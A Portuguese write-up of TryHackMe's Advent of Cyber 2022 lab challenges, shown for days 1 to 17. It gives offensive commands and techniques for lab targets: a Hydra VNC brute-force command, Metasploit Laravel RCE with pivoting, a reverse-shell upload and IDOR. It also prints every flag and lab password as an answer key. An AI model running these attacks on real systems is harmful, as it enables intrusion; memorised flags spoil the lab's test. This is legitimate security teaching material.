# Advent of Cyber 2022

Esse write-up será sobre sobre o Advent of Cyber 2022, que é o evento especial de natal do TryHackMe. Todos os dias a plataforma liberará algum desafio. Esse write-up só será publicado ao final do evento.

Nesse write-up não colocarei todo o conteúdo teórico apresentado nas Tasks, apenas um breve resumo e a explicação das questões. O evento pode ser acessado nesse [link](https://tryhackme.com/room/adventofcyber4).


E antes de começar gostaria de agradecer ao TryHackMe e a todos os envolvidos no desenvolvimento do evento pelos ótimos desafios e por todo conteúdo que pude aprender ou revisar. 




### Índice
- [\[Day 1\] Someone's coming to town!](#day-1-someones-coming-to-town)
- [\[Day 2\] Santa's Naughty & Nice Log](#day-2-santas-naughty--nice-log)
- [\[Day 3\] Nothing escapes detective McRed](#day-3-nothing-escapes-detective-mcred)
- [\[Day 4\] Scanning through the snow](#day-4-scanning-through-the-snow)
- [\[Day 5\] He knows when you're awake](#day-5-he-knows-when-youre-awake)
- [\[Day 6\] It's beginning to look a lot like phishing](#day-6-its-beginning-to-look-a-lot-like-phishing)
- [\[Day 7\] Maldocs roasting on an open fire](#day-7-maldocs-roasting-on-an-open-fire)
- [\[Day 8\] Last Christmas I gave you my ETH](#day-8-last-christmas-i-gave-you-my-eth)
- [\[Day 9\] Dock the halls](#day-9-dock-the-halls)
- [\[Day 10\] You're a mean one, Mr. Yeti](#day-10-youre-a-mean-one-mr-yeti)
- [\[Day 11\] Not all gifts are nice](#day-11-not-all-gifts-are-nice)
- [\[Day 12\] Forensic McBlue to the REVscue!](#day-12-forensic-mcblue-to-the-revscue)
- [\[Day 13\] Simply having a wonderful pcap time](#day-13-simply-having-a-wonderful-pcap-time)
- [\[Day 14\] I'm dreaming of secure web apps](#day-14-im-dreaming-of-secure-web-apps)
- [\[Day 15\] Santa is looking for a Sidekick](#day-15-santa-is-looking-for-a-sidekick)
- [\[Day 16\] SQLi’s the king, the carolers sing](#day-16-sqlis-the-king-the-carolers-sing)
- [\[Day 17\] Filtering for Order Amidst Chaos](#day-17-filtering-for-order-amidst-chaos)
- [\[Day 18\] Lumberjack Lenny Learns New Rules](#day-18-lumberjack-lenny-learns-new-rules)
- [\[Day 19\] Wiggles go brrr](#day-19-wiggles-go-brrr)
- [\[Day 20\] Binwalkin’ around the Christmas tree](#day-20-binwalkin-around-the-christmas-tree)
- [\[Day 21\] Have yourself a merry little webcam](#day-21-have-yourself-a-merry-little-webcam)
- [\[Day 22\] Threats are failing all around me](#day-22-threats-are-failing-all-around-me)
- [\[Day 23\] Mission ELFPossible: Abominable for a Day](#day-23-mission-elfpossible-abominable-for-a-day)
- [\[Day 24\] Ho, ho, ho, the survey's short / The Year of the Bandit Yeti](#day-24-ho-ho-ho-the-surveys-short--the-year-of-the-bandit-yeti)
- [Conclusão](#conclusão)


## [Day 1] Someone's coming to town!

Nesse primeiro dia é explicado sobre alguns frameworks de segurança cibernética, sendo eles o NIST, ISO 27000, MITRE ATT&CK, Cyber Kill Chain e Unified Kill Chain.
Há uma página que pode ser mostrada para encontrar as flags.



Após clicar em start vamos para outra página com um quebra-cabeça, são ao todo 3 quebra-cabeças que podem ser resolvidos utilizando as dicas e o conhecimento sobre frameworks apresentado anteriormente, ou também é possível resolver pelo formato das peças.

Ao término dos 3, nos é mostrado uma página com uma flag e um culpado pelo ataque. Esse culpado está relacionado a história do evento deste ano. 



Na primeira questão é perguntado quem está atacando a rede do Papai Noel esse ano, e como podemos ver pela imagem acima da resolução dos quebra-cabeças a resposta é **The Bandit Yeti**.

A segunda questão pede a flag, que é a também mostrada na imagem anterior, **THM{IT'S A Y3T1 CHR1$TMA$}**. Assim conclui-se o primeiro dia.


## [Day 2] Santa's Naughty & Nice Log

O conteúdo do segundo dia é relacionado a logs. É explicado um pouco o que são os logs, como são formados, onde são encontrados no Windows e no Linux. Além disso, também é explicado um pouco sobre o utilitário grep do Linux.

Há uma máquina em anexo a Task de hoje que pode ser acessada no navegador. As questões são referentes ao conteúdo dessa máquina.

A primeira questão é apenas ligar a máquina, que pode ser feito clicando no botão verde no início da Task. A segunda questão pede para usar o comando ls para saber quantos arquivos de log existem no diretório. Como pode ser visto na imagem abaixo o diretório possui apenas **2** arquivos de logs.



A terceira questão pede qual o nome do arquivo que tem os logs do servidor web. Pelos arquivos encontrados anteriormente um deles tem o nome **webserver.log** que é a resposta dessa questão.

A próxima questão pede em qual dia da semana a lista do Papai Noel foi roubada. Usando os comandos head e tail para ver, respectivamente, o início e fim do arquivo, é possível perceber que os logs são apenas do dia 18 de novembro. Então a lista foi roubada em uma sexta-feira, **friday**.

Agora é pedido qual o IP dos atacantes. Ainda pelo retorno dos comando head e tail, todas as requisições são de um mesmo IP, **10.10.249.191**.



A sétima questão pede qual o nome da lista que foi roubada. Uma lista é provavelmente um arquivo de texto, logo terminaria com .txt. Então pode-se utilizar o regex \\.txt, para escapar o '.' e buscar pelo literal .txt, assim casando com arquivos de texto. Portanto utilizando o grep com esse regex é possível achar uma requisição ao arquivo **santaslist.txt**, que é o arquivo que estávamos procurando.


Por fim, a última questão pede para achar uma flag nos arquivos de log. As flags do TryHackMe possuem o formato THM{...}, então basta usarmos grep por THM nos arquivos de log. Assim encontramos a flag **THM{STOLENSANTASLIST}** no arquivo SSHD.log.




## [Day 3] Nothing escapes detective McRed

O terceiro dia é focado em OSINT, que é a busca de informações de fontes abertas. Nessa Task é explicado o básico de OSINT através de google dorks, whois lookup, robots.txt e outros. 

A primeira questão pede pelo nome da registrar do domínio santagift.shop. Essa informação pode ser encontrada através do whois. Dessa forma ao pesquisar esse domínio no site who.is encontramos que o nome do registrar é **NAMECHEAP INC**.



A próxima questão pede para encontrar uma flag em um código no github que contém credenciais sensíveis. Então pesquisando por "santagift.shop" nos códigos do github é encontra-se 3 códigos de uma conta chamada muhammadthm. 



E logo no início do config.php está a flag **{THM_OSINT_WORKS}**.



Com a informação anterior podemos responder a terceira questão que pede qual arquivo contém senhas. É o arquivo **config.php**, o mesmo que tem a flag anterior.

As duas últimas questões pedem pelo nome do servidor QA associado ao site e a senha do servidor QA. Essas informações podem ser encontradas ainda no config.php, um pouco mais abaixo da flag anterior. Sendo o servidor **qa.santagift.shop** e a senha **S@nta2022**. 




## [Day 4] Scanning through the snow

No dia 4 é explicado sobre scanning, considerando network, port e vulnerability scanning e as ferramentas Nmap e Nikto. 

Para realizar as questões precisa-se ligar uma máquina alvo. As duas primeiras flags são relacionadas ao scan das portas na máquina. E as outras duas sobre o conteúdo do SMB da máquina.

O nmap possui a opção -A para um scan que detecta o sistema operacional (OS), os software que estão rodando nas portas e roda os scripts padrão do Nmap Script Engine (NSE). E a opção -T4 para aumentar a velocidade do scan. 

Para o scan dessa máquina usei o comando nmap -A -T4 \<ip\>. Assim, descobri que o servidor do HTTP é o **Apache** e que na porta 22 está sendo rodado o **SSH**. Sendo essas as respostas para as duas primeiras perguntas. 



Agora, a partir das credenciais encontradas na Task de ontem, podemos conectar no servidor SMB e baixar os arquivos. Para listar os volumes que estão sendo compartilhados nesse servidor, eu utilize o comando smbclient seguido por -U para definir o usuário e senha e o -L para o host. 



Então para acessar o volume utilizei o mesmo comando smbclient com o usuário e senha mas agora seguido pelo host e volume. Conectado no servidor, com o comando ls da para ver os arquivos e com get baixá-los. 



Com os arquivos localmente, é só usar o cat para mostrar o conteúdo. O arquivo flag.txt possui a flag **{THM_SANTA_SMB_SERVER}** resposta da terceira questão. E o arquivo userlist.txt possui alguns usuários e senhas, sendo **santa25** a senha do usuário que pede na última questão.




## [Day 5] He knows when you're awake

No dia de hoje é explicado um pouco sobre serviços de acesso remoto, sendo estes SSH, RDP e VNC. E também sobre autenticação e ataques a senhas. Dessa forma as questões são relacionadas a fazer um brute-force em um servidor VNC.

A primeira questão pede a senha do VNC da máquina anexada a essa Task. Para descobrir essa senha, fiz um brute-force utilizando o Hydra e a wordlist rockyou.txt. 
O comando que utilizei foi "hydra -P /usr/share/wordlists/rockyou.txt -t 48 vnc://10.10.44.200", onde a opção -P é para selecionar a wordlist a ser usada, -t para aumentar o paralelismo assim acelerando a quantidade de tentativas e por fim o serviço e IP alvos.



Com isso pode ser encontrado a senha **1q2w3e4r**. E com ela deve-se conectar ao alvo para encontrar a flag da segunda questão. 
Então, a partir do remmina me conectei com a máquina. Assim, na imagem de fundo da área de trabalho está a flag **THM{I_SEE_YOUR_SCREEN}**.




## [Day 6] It's beginning to look a lot like phishing

No sexto dia, são explicados sobre email e os cabeçalhos que compõem estes, como From, To, SPF, MIME-Version, entre outros. É falado sobre as ferramentas emlAnalyzer para fazer análise de emails, emailrep para analisar a reputação do remetente e virustotal para identificar os links ou anexos que possam ter.

Para responder a primeira questão é só abrir o arquivo do email com alguma ferramenta de edição de texto para vê-lo em *plaintxt*, eu utilizei o Sublime Text para isso. Logo nas primeiras linhas do arquivo, que são os campos de cabeçalho do email, já estão as respostas para as primeira 4 questões. 

A primeira e a terceira questão são respondidas utilizando o cabeçalho "From", pois elas estão relacionadas a quem teria enviado o email. Onde **Chief Elf** é a resposta da terceira questão e o email **chief.elf@santaclaus.thm** da primeira.

No cabeçalho "Return-path" está a resposta para a questão 2, **murphy.evident@bandityeti.thm**, pois nessa questão é pedido qual o endereço de retorno. 

E a quarta questão, que pede qual o *X-spam score*, pode ser respondida utilizando o valor do cabeçalho *X-Pm-SpamScore* que é **3**.



Agora, é pedido o valor escondido no campo *Message-ID*. O valor deste cabeçalho está codificado em Base64, então para decodificar dá para utilizar a ferramenta CyberChef. Assim obtemos **AoC2022_Email_Analysis**.



A questão 6 pede pela reputação de quem enviou o email. Para obter essa informação utiliza-se a ferramenta Simple Email Reputation que foi apresentada anteriormente nessa Task. Sendo que é só inserir o email que se deseja analisar no site que é retornado a reputação, no caso desse email é **RISKY**. 



As próximas questões são relacionadas ao anexo do email, para obtê-lo usei o comando emlAnalyzer com as opções -i para passar o caminho do arquivo e --extract-all para extrair o anexo. Com o anexo podemos ler o nome dele **Division_of_labour-Load_share_plan.doc**, que é a resposta da sétima questão. E usar o comando sha256sum para conseguir o hash, respondendo a oitava questão, **0827bb9a2e7c0628b82256759f0f888ca1abd6a2d903acdb8e44aca6a1a03467**.





As duas últimas questões ainda são baseadas no anexo, mas agora só vai ser necessário o hash dele. A questão 9 pede qual é a segunda tática do Mitre ATT&CK associada a esse arquivo pelo Virus Total. 
Desse modo ao inserir o hash no Virus Total e ir na aba *BEHAVIOUR*, encontra-se 3 táticas do ATT&CK, sendo a resposta **Defense Evasion**.





Por fim, para a última questão pede pela subcategoria do arquivo informada pelo InQuest. Ao acessar o site e buscar pelo hash encontramos que a subcategoria é **macro_hunter**. 




## [Day 7] Maldocs roasting on an open fire

O dia 7 é sobre o CyberChef e como ele pode ser usado para encontrar URLs em arquivos, aqui está usando o arquivo encontrado na Task de ontem para fazer essa análise. O texto da própria task já é um passo a passo para a resolução das questões. 

Para essa task vamos utilizar a máquina virtual anexada, também será utilizado o CyberChef que está salvo nos favoritos do browser da máquina. Após ligar a máquina é só abrir o Firefox e CyberChef que está nos favoritos, então carregar o arquivo .doc que está na área de trabalho e inserir a receita mostrada nessa Task.

Ao inserir todas as operações mostradas a receita deve ficar a seguinte:







O operador Strings busca por sequências de caracteres imprimíveis baseado na tabela ASCII e colocamos um limitador de 258 caracteres. O primeiro Find/Replace busca e remove o regex [\\\[\\]_\n], ou seja os caracteres [, ], _ e quebra de linha. Ao fazer essas operações obtemos alguns comandos de powershell seguidos por algo codificado em Base64.Assim, é usado o Drop Bytes para remover os primeiros caracteres, restando apenas o Base64. 

Então com o operador Decobe base64 decodificamos o texto. Porém o powershell utiliza codificação dos caracteres como Unicode UTF-16LE, por isso precisamos utilizar o operador Decode text escolhendo o padrão UTF-16LE (1200).Agora é utilizado Find/Replace de novo para excluir os caracteres ', (, ), +, ', ` e ". E mais uma vez o Find/Replace para substituir ]b2H_ por http. 

Agora podemos finalmente utilizar o operador Extract URLs para obter as URLs do documento. Mas elas aparecem em uma linha só separadas por @, com o Split podemos separá-las por linhas. E por fim o Defang URL adiciona [] em cada. para que esses links não possam ser clicados. Dessa forma conseguimos as seguintes URLs: 



Com as URLs, agora é possível responder às questões. 
A primeira pede qual a versão do CyberChef naquela máquina, a resposta pode ser encontrada no canto superior esquerdo ou na URL do site, **9.49.0**.

A próxima questão pede quantas operações foram usadas para extrair as URLs, contando podemos ver que foram **10**. 

A questão 3 pede qual o nome do malware que uma das URLs tentava baixar. A primeira é a única que indica um arquivo executável, logo o malware é **mysterygift.exe**.

Na quarta questão é pedido qual a última URL encontrada, a resposta é **hxxps[://]cdn[.]bandityeti[.]THM/files/index/**. E a última questão pede por um ticket em uma das URLs. Na penúltima URL encontramos um diretório Goldenticket seguido por **THM_MYSTERY_FLAG**, que é o ticket.


## [Day 8] Last Christmas I gave you my ETH

Assim como no dia de ontem, hoje a parte teórica da Task contém um passo a passo para resolver a questão. Mas agora o conteúdo é sobre smart contracts, é explicado o que são esses contratos e como podem ser atacados.

A primeira questão não precisa de resposta pois só pede para baixar o zip anexado na Task e abrir o [Remix](https://remix.ethereum.org). Agora para a segunda flag iremos fazer o deploy do contrato EtherStore.sol que veio no zip e atacá-lo com o outro contrato Attack.sol.

Para começar precisamos adicionar os dois contratos ao workspace do remix, isso pode ser feito clicando no botão que tem uma seta para cima e selecionando os arquivos. 



Agora, para que esses contratos possam ser utilizados, eles precisam ser compilados, o que pode ser feito na aba "Solidity compiler". Para esses contratos vamos utilizar o compilador 0.8.10, com esse compilador selecionado é só escolher o contrato e compilá-lo clicando em "Compile \<nome do contrato\>".





Com os dois compilados agora podemos ir para a próxima aba, "Deploy & run transactions". Agora vamos selecionar o EtherStore.sol e clicar em "Deploy", isso criará um novo menu mais abaixo onde poderemos adicionar e remover alguns valores de uma carteira. Para adicionar algum valor é só selecionar o valor em "VALUE" e clicar em "deposit" do novo menu.





Então podemos fazer o ataque a esse contrato, para isso selecionaremos o contrato Attack e do lado de "Deploy" precisaremos inserir o endereço do contrato que vamos atacar. Como no anterior isso criará um novo menu mais abaixo. 





Por fim, para realizar o ataque, o EtherStore precisa ter algum saldo e devemos inserir um valor menor que esse saldo em "VALUE" e clicar em "attack" do novo menu. Com isso feito a flag **flag{411_ur_37h_15_m1n3}** será impressa no terminal ao lado, sendo essa a resposta da segunda questão. 




## [Day 9] Dock the halls

Hoje o tema da Task é Pivoting, nela é explicado o básico sobre Pivoting e como usar o Metasploit. E como nos dias anteriores tem um passo a passo para a resolução das questões. 

A primeira questão pede por qual porta está aberta na máquina alvo. Utilizando o nmap com as mesmas opções que usei e expliquei no [dia 4](#day-4-scanning-through-the-snow), é retornado que a porta **80** está aberta com um servidor web Apache.



A próxima questão pede qual o framework usado pela aplicação web. Ao acessar a página, no canto inferior esquerdo, está escrito o **Laravel** v8.26.1, que é o framework e sua versão.



Ao pesquisar por essa versão do laravel no google, encontrei o **CVE-2021-3129**. Que é a resposta da terceira questão que pede por esse CVE. 

As três questões seguintes estão relacionadas ao que foi explicado no texto da Task. Sendo **sessions -u-1** usado para melhorar a última sessão em uma shell de Meterpreter, **/.dockerenv** o diretório que indica ser um Docker e .env o arquivo que contém credenciais, esse arquivo fica no cat /var/www/.

Para exploitar a aplicação web utilizei o módulo multi/php/ignition_laravel_debug_rce do Metasploit, configurando apenas os parâmetros rhost com o IP do alvo e lhost o IP da minha máquina.

A questão 7 pede pelo banco de dados que tem informações úteis. Na shell do meterpreter pode ser utilizado o comando "resolve webservice_database" para
obter o IP do banco de dados que está sendo utilizado pela aplicação web. Porém é um IP privado que não temos acesso a partir da nossa máquina, então precisa usar as técnicas de pivoting explicadas antes.



Para realizar o pivoting vamos utilizar os seguintes comando no metasploit "route add 172.28.101.51/32 -1" e "route add 172.17.0.1/32 -1" que permitirão, respectivamente, enviarmos pacotes para a rede interna dos dockers e a rede do docker com o host. 

Agora, na mesma rede, podemos obter as informações do banco de dados com a ajuda de um módulo de scan do metasploit. Ao executá-lo encontramos a tabela **users** que a questão pedia.



Tendo o nome da tabela, podemos utilizar comando de SQL com outro módulo para ler os dados armazenados nela. Dessa forma obtendo um usuário e senha, **p4$$w0rd**.



Então para tunelar os pacotes de outros aplicativos além do metasploit da nossa máquina para dentro da rede que comprometemos, usaremos um proxy socks4. Para configurá-lo estaremos usando mais um módulo do metasploit, dessa vez o server/socks_proxy com os parâmetros srvhost=127.0.0.1, srvport=9050 e version=4a. Com isso todo pacote que enviarmos para a máquina nessa porta será redirecionado para a outra rede. Essa porta e versão do socks é a padrão do proxychains, então se quiser utilizar outra precisa também alterar o arquivo /etc/proxychains4.conf.

Assim com o proxychains podemos utilizar o nmap para ver as portas abertas na máquina que esteja hospedando os dockers. E descobrimos que possui as portas **22 e 80** abertas. 



Para terminar, conectei nessa máquina através do ssh com as credenciais que estavam no banco de dados. O usuário santa já é o root da máquina e ao conectar já temos a flag root.txt, THM{47C61A0FA8738BA77308A8A600F88E4B}.




## [Day 10] You're a mean one, Mr. Yeti

No décimo dia, é explicado como hackear jogos de browser a partir da alteração da memória RAM. Para isso tem um plugin para o browser Cetus que pode analisar e alterar o valor dos dados armazenados na memória do Web Assembly. 

A máquina que está anexada a essa Task possui um jogo de browser rodando e também já vem com o Cetus instalado. Para conseguir as duas flag basta completar dois desafios no jogo. O primeiro desafio é acertar um número aleatório para o guarda e o segundo é não morrer ao passar por algo que causa dano. 

No primeiro desafio, após errar o número o guarda informa qual era o número esperado. Então podemos utilizar o Cetus para buscar na memória por esse número e saber onde que ele fica armazenado. Como estamos buscando pelo número exato, utilizamos o operador EQ e pelo tamanho limite podemos imaginar que é um inteiro de 32 bits, logo usaremos o tipo i32.



Com essa busca é encontrado apenas um endereço de memória que é o que contém o número que buscamos, o valor está em hexadecimal. Clicando no botão azul do lado direito podemos salvar esse endereço para acompanhar as mudanças nele.

Ao conversar com o guarda novamente o valor armazenado no endereço muda. E com alguma ferramenta de conversão de hexa para decimal podemos obter a senha.





Assim ao informar o valor certo para o guarda nos é dada a primeira flag, **THM{5_star_Fl4gzzz}**, e porta atrás se abre permitindo que acessemos outra área do jogo.



Agora temos que passar por uma ponte onde estão sendo jogadas bolas de neve que ao acertarem o personagem ele perde vida. Para passarmos por isso precisamos encontrar o endereço de memória que armazena a vida e garantirmos que ele não diminua. 

Primeiro teremos que fazer uma pesquisa pela memória com o operador EQ e o campo valor vazio, para obtermos todos os endereços. Então deixamos o personagem perder um pouco de vida com as bolas de neve e fazemos uma busca novamente mas com o operador LT, dessa forma poderemos ver quais os endereços que tiveram o valor reduzido desde a busca anterior.




Com isso encontrei um endereço que possui valor 70 que é mais ou menos o quanto da barra de vida ainda está verde, então salvo esse endereço nos "Bookmarks" como no desafio anterior. Com isso na aba "Bookmarks" podemos selecionar a opção "Freeze" para impedir que o valor mude, dessa forma o personagem não perderá vida ou morrerá ao atravessar.  



Por fim para conseguir a segunda flag é só falar com o Bandit Yeti, **THM{yetiyetiyetiflagflagflag}**.




## [Day 11] Not all gifts are nice

Nessa Task é explicado sobre Memory Forensics, ou seja como analisar o conteúdo da memória RAM de um computador. Isso pode ser realizado com o uso do software volatility, que consegue analisar dumps de Windows, Linux e Mac.

Para responder às questões será utilizado a máquina anexada a essa Task que já possui o volatilty e um dump chamado workstation.vmem. 

A primeira questão pede pela versão do Windows que foi capturado a imagem da memória. Para obter essa informação usaremos o volatility passando como argumento a imagem da memória e a opção windwos.info. Com isso obtemos que a versão é a **10**.


As próximas duas questões são relacionadas a um processo que estava rodando na máquina, é perguntado qual o nome do processo/presente que o papai noel deixou e qual o Process ID (PID) dele. Alterando o comando anterior de windows.info para windows.pslist podemos obter uma lista com todos os processos que estavam sendo executados. Ao final dessa lista de encontrá-se o **mysterygift.ex** com o PID **2040**.


E para a última questão é pedido quantos arquivos podem ser obtidos desse processo. Alterando o plugin novamente, agora para windows.dumpfiles, e utilizando o argumento --PID 2040 para filtrar os processos, podemos obter os arquivos relacionados ao processo da questão anterior. Assim obtemos **16** arquivos.


## [Day 12] Forensic McBlue to the REVscue!

No dia 12 é explicado sobre anlise de malware, tanto estática sem executar o código malicioso como dinâmica executando o código. O código que vai ser analisado hoje é o processo que foi encontrado ontem durante a análise da memória.

As duas primeiras questões podem ser respondidas utilizando o software "Detect It Easy" para examinar o mysterygift. A primeira questão pede pela arquitetura, que é **64-bit**. E a segunda pelo packer que foi utilizado para esconder o malware, sendo a resposta **UPX**.


A última questão também pode ser feita utilizando esse software, com a aba de "Strings". Nessa questão é pedido pela URL que o malware utiliza para baixar um arquivo. Filtrando por http:// encontramos a URL **http://bestfestivalcompany.thm/favicon.ico**.


As questões 3 e 4 pedem pelo compilador que foi utilizado para compilar esse código e quantas técnicas de Discovery do ATT&CK são utilizadas por ele. Para respondê-la utilizaremos o comando CAPA, mas antes precisa-se desempacotar o arquivo utilizando o UPX.

Ao utilizar esses dois comandos obtemos várias informações relacionadas ao malware. Sendo que ele utiliza 5 técnicas do Mitre ATT&CK, mas apenas **2** de Discovery. E que foi utilizado o compilador **Nim**.


Para as próximas questões será feita uma análise dinâmica, então executaremos o código enquanto o Process Monitor acompanha o que está sendo executado no computador.

Primeiro é pedido qual chave de registro que é abusada pelo malware. Ao filtrar pelas atividades relacionadas a registro e apagar as opções que não são "RegCreatekey", encontramos que está sendo alterada a chave **HKCU\Software\Microsoft\Windows\CurrentVersion\Run**. E o valor escrito nessa chave é **C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\wishes.bat**, sendo essa a resposta para a questão seguinte.


A questão 7 quer saber quais arquivos estão sendo criados pelo malware. Então agora devemos filtrar por atividade de sistema de arquivos. Assim encontramos que está sendo criado dois arquivos, o **test.jpg** e o **wishes.bat**.


A oitava questão pede por quais domínios o malware está se conectando. Ao filtrar por atividade de rede aparece o **bestfestivalcompany.thm** e o **virustotal.com**.


## [Day 13] Simply having a wonderful pcap time

Tendo passado da metade do evento, hoje estamos no dia 13. Aqui é explicado sobre análise de pacotes. Pacotes são uma estrutura de dados utilizada para a transmissão de informações entre os computadores, eles possuem um cabeçalho com as informações de origem, destino, detecção de erros, entre outros. E também um campo de payload onde é inserido os dados que se deseja enviar. A partir da análise de pacotes é possível detectar intrusões na rede. 

A questão 1 pede pela porcentagem de pacotes de HTTP. Para obter esse dado utilizaremos o "Protocol Hierarchy" que está no menu Statistics, com isso obtemos a quantidade e porcentagem de pacotes de cada protocolo da nossa captura. Para HTTP foram apenas **0.3** dos pacotes.


As duas questões seguintes pedem por qual porta recebeu mais de mil pacotes e qual é o serviço associado a essa porta. Esse dado pode ser encontrado na seção "TCP" do "Conversations", que também está no menu Statistics. Podemos ver que das três portas apenas a **3389** recebeu mais de mil pacotes. Essa porta é normalmente utilizada para o Remote Desktop Protocol, **RDP**.


A quarta questão pede pelos domínios que foram pesquisados no DNS. Para filtrar apenas os pacotes referentes a pesquisas de DNS, basta colocar DNS no filtro acima dos pacotes. Com isso obtemos duas pesquisas e duas respostas do DNS para os domínios **bestfestivalcompany[.]thm,cdn[.]bandityeti[.]thm**.


Assim como na questão anterior usaremos o filtro mas agora para buscar por pacotes HTTP. A questão pede por quais arquivos foram requisitados utilizando HTTP. Podemos ver que foi feito um GET para **favicon[.]ico,mysterygift[.]exe**.


Ao clicar em um dos pacotes, logo abaixo aparece mais detalhes do pacotes e clicando para abrir os sub-menus podemos ver todos os dados contidos nele. As próximas duas questões pedem pelo IP que baixou o mysterygift.exe e de qual domínio foi baixado. Olhando as informações do pacote 351, encontramos que o IP de origem foi **10[.]10[.]29[.]189** e foi requisitado do site **cdn[.]bandityeti[.]thm**.


Ao fazer o mesmo com o pacote 744, que foi o que requisitou o ícone, podemos ver o user-agent que é pedido pela questão oito. Sendo que o user-agent é **Nim httpclient/1.6.8**. 


Para responder a nona questão antes precisaremos baixar localmente o mysterygift.exe. Para baixá-lo tem que ir no menu "File", então em "Export Objects" e "HTTP", por fim escolher o arquivo. Com o arquivo salvo podemos utilizar no terminal o comando sha256sum para obtermos o hash dele, **0ce160a54d10f8e81448d0360af5c2948ff6a4dbb493fe4be756fc3e2c3f900f**.


A última questão pede para buscar, no Virus Total, pelos IPs aos quais esse malware se conecta. Ao pesquisar pelo hash no Virus Total e ir na aba "Behaviour", aparecem os seguintes IPs. Porém para responder a questão é apenas os de TCP e não precisa da porta, então fica **20[.]99[.]133[.]109,20[.]99[.]184[.]37,23[.]216[.]147[.]64,23[.]216[.]147[.]76** como resposta. 


## [Day 14] I'm dreaming of secure web apps

Seguindo para o décimo quarto dia, é explicado sobre IDOR em aplicações web. IDOR acontece quando o adversário é capaz de manipular algum parâmetro e não há nenhum controle de acesso para impedi-lo.

Para as questões de hoje vamos entrar na aplicação a partir da conta do Elf McSkidy e buscar por dados de outro elfo e de outra imagem.

A primeira questão pede pelo número do escritório do Elf Pivot McRed. Ao logar na aplicação entramos como McSkidy com a URL "/users/101.html", se mudarmos o 101 para outros números podemos acessar os dados dos outros elfos. Assim no 105 encontramos o elfo que precisamos para essa questão, sendo que seu escritório possui o número **135**. 


A próxima questão pede por uma flag que está em uma imagem. Ao ler o código-fonte da página pode-se perceber que as imagens dos perfis são armazenadas em "/images/<número>.png". 


Então variando o número do mesmo jeito que fizemos para encontrar o elfo, conseguimos encontrar a imagem que contém a flag **THM{CLOSE_THE_DOOR}**.


## [Day 15] Santa is looking for a Sidekick

O Task de hoje, dia 15, é focado em validação de entrada do usuário para desenvolvimento seguro. Entradas que não são validadas podem conter arquivos com formatos diferentes do que é esperado pela aplicação ou arquivos maliciosos, assim permitindo um Remote Code Execution (RCE).

A primeira questão pede por qual o nome dado a forma de inserir arquivos que permite ao adversário inserir qualquer arquivo. A resposta para essa questão está logo no início da parte teórica e é **Unrestricted**. Porque uma vez que não tem validação não tem como restringir os arquivos.

A questão 2 pede pelo nome da aplicação web. Ao acessar o IP na máquina anexada no browser encontramos a página **SantaSideKick2**.


A próxima questão pede por uma flag que está armazenada na pasta de documentos do HR_Elf. Para obter essa flag primeiro precisamos conseguir uma shell. A máquina alvo é um Windows, então vamos criar uma shell reversa com o msfvenom com o formato exe e payload para Windows.


Então configurar os parâmetros do multi/hander para escutar a shell.


Com a listener pronto, podemos fazer o upload da Shell na aplicação web.


Após alguns segundos obtemos uma sessão do meterpreter. Então navegando até a pasta Documents do usuário HR_Elf encontramos a flag, **THM{Naughty.File.Uploads.Can.Get.You.RCE}**.


As próximas questões agora são mais teóricas referentes à validação de entrada. A técnica para assegurar que um tipo específico de arquivos foi inserido, a resposta é **File Extension Validation**. A técnica para garantir que o adversário não possa acessar o arquivo que ele fez o upload é **File Renaming**. E por último a técnica para ter certeza que o arquivo não é malicioso é **Malware Scanning**.


## [Day 16] SQLi’s the king, the carolers sing

O conteúdo de hoje é desenvolvimento seguro, assim como ontem, mas agora para defender de ataques de SQL injection. Esse tipo de ataque acontece quando os parâmetros que formam uma pesquisa SQL não são validados, assim permitindo que o adversário os altere. Isso pode levar a um *bypass* dos mecanismos de autenticação ou obtenção das informações armazenadas no banco de dados.

Para resolver as questões de hoje, precisa-se alterar o código-fonte da aplicação de forma que remova a vulnerabilidade em quatro páginas diferentes, sendo que é explicado como fazer para as duas primeiras. Após fazer as alterações, o código precisa ser salvo clicando "CTRL + S" e verificado pelos elfos, caso não tenha mais a vulnerabilidade será fornecida a flag.


A primeira questão pede para corrigir a vulnerabilidade do elf.php. Nesse código precisa ser alterado as linhas 4 e 17 para ser adicionado a função *intval*, que verificará se o valor inserido pelo usuário é um valor inteiro. A flag obtida é **THM{McCode, Elf McCode}**.

```php
// linha 4
$query="select * from users where id=".$_GET['id'];
$query="select * from users where id=".intval($_GET['id']);
``` 

```php
// linha 17
$query="select * from toys where creator_id=".$_GET['id'];
$query="select * from toys where creator_id=".intval($_GET['id']);
``` 


Agora na questão 2 precisamos corrigir o search-toys.php. Aqui ao invés de só juntar o texto da query com os argumentos, será definido onde eles devem ser encaixados e o banco de dados fará isso de forma segura. A flag obtida é **THM{KodeNRoll}**.

```php
// linhas 4 e 5 antes
$query="select * from toys where name like '%".$_GET['q']."%' or description like '%".$_GET['q']."%'";
$toys_rs=mysqli_query($db,$query);
```

```php
$q = "%".$_GET['q']."%";
$query="select * from toys where name like ? or description like ?";
$stmt = mysqli_prepare($db, $query);
mysqli_stmt_bind_param($stmt, 'ss', $q, $q);
mysqli_stmt_execute($stmt);
$toys_rs=mysqli_stmt_get_result($stmt);
```


Na terceira questão as alterações são no toy.php. Assim como na primeira questão, só é necessário validar se a entrada é um número inteiro, então utiliza-se a mesma função intval. A flag obtida é **THM{Are we secure yet?}**. 

```php
// linha 4
$query="select * from toys where id=".$_GET['id'];
$query="select * from toys where id=".intval($_GET['id']);
```

```php
// linha 30
$query="select * from kids where assigned_toy_id=".$_GET['id'];
$query="select * from kids where assigned_toy_id=".intval($_GET['id']);
```


A última questão será para corrigir o login.php. Para essa questão a resolução é muito parecida com a da segunda. Os parâmetros não devem ser anexados a strings para formar a query mas fazer isso utilizando algumas funções. A flag obtida é **THM{SQLi_who???}**. 

```php
// linhas 8 e 9 antes
$query="select * from users where username='".$username."' and password='".$password."'";
$users_rs=mysqli_query($db, $query);
```

```php
$query="select * from users where username= ? and password= ?";
$stmt = mysqli_prepare($db, $query);
mysqli_stmt_bind_param($stmt, 'ss', $username, $password);
mysqli_stmt_execute($stmt);
$users_rs=mysqli_stmt_get_result($stmt);
```


## [Day 17] Filtering for Order Amidst Chaos

Seguindo em código seguro, hoje é explicado sobre expressões regulares (regex) para validação de cadeias de caracteres que podem ser inseridas pelo usuário. A partir de regex é possível criar linguagens regulares que serão interpretadas por um analisador léxico.

Para as questões será necessário criar três expressões para definir nome de usuário, email e URL. Com as expressões será utilizado o utilitário egrep para analisar um arquivo que contém várias entradas.

